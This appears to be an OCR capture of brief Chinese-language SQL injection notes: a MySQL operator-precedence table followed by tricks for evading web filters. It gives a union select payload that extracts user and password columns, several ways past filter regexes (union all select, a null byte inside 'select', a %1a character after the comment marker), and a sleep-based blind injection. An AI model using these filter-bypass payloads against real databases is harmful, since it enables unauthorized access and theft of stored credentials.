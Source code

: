 
- 表内容
```
select 1,concat(user, 0x2c, password) from [table_name]
```



# 运算符优先级：

```
优先级 运算符
(最高)  !
    -（负号）,~（按位取反）
    ^（按位异或）
    *,/(DIV),%(MOD)
    +,-
    >>,<<
    &
    |
    =(比较运算),<=>,<,<=,>,>=,!=,<>,IN,IS NULL,LIKE,REGEXP
   BETWEEN AND,CASE,WHEN,THEN,ELSE
   NOT
   &&,AND
   XOR
   ||,OR
(最低)    =(赋值运算),:=
```

# union select 不允许同时出现
过滤正则表达式如下:

```
union[\s\xA0]+select
```

可以使用union all select绕过

# select过滤
se%00lect绕过

# -- 注释
--后边不允许添加任何空白字符
过滤正则表达式如下:
--[\s\xA0]
还可以使用%1a
--%1a绕过

# where后边跟着sleep函数
`
select * from table_name where sleep(2) or 1 = 2;
`
